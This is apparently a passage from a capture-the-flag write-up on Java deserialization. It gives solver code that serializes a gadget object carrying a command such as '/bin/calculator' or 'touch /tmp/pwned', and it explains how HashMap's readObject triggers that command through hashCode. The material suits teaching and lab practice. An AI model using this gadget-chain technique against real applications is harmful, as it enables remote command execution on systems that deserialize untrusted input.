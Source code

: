 solver :

```java
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;

public class Exploit {

    public static void main(String[] args) {
        try {
            AnotherClass gadget = new AnotherClass();

            Field commandField = AnotherClass.class.getDeclaredField("command");
            commandField.setAccessible(true);
            commandField.set(gadget, "/bin/calculator");  
            ByteArrayOutputStream bos = new ByteArrayOutputStream();
            ObjectOutputStream os = new ObjectOutputStream(bos);
            os.writeObject(gadget);

            String base64Encoded = Base64.getEncoder().encodeToString(bos.toByteArray());
            System.out.println(base64Encoded);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

## **Java Serialize -  03**

In this challenge, we need to leverage a `java.util.HashMap` that will call the method `hashCode()` when it gets deserialized. 

```java
      Map map = new HashMap<>();
      AnotherClass gadget = new AnotherClass("touch /tmp/pwned");
      map.put(gadget, "pwned");
```

This works because the method `readObject()` of `java.util.HashMap()` calls the method `hash()` on `key` :

```java
private void readObject(ObjectInputStream s)
  throws IOException, ClassNotFoundException
{
  // Read the threshold and loadFactor fields.
  s.defaultReadObject();
  // Read and use capacity, followed by key/value pairs.
  buckets = (HashEntry[]) new HashEntry[s.readInt()];
  int len = s.readInt();
  size = len;
  while (len-- > 0)
    {
      Object key = s.readObject();
      addEntry((K) key, (V) s.readObject(), hash(key), false);
    }
}
```
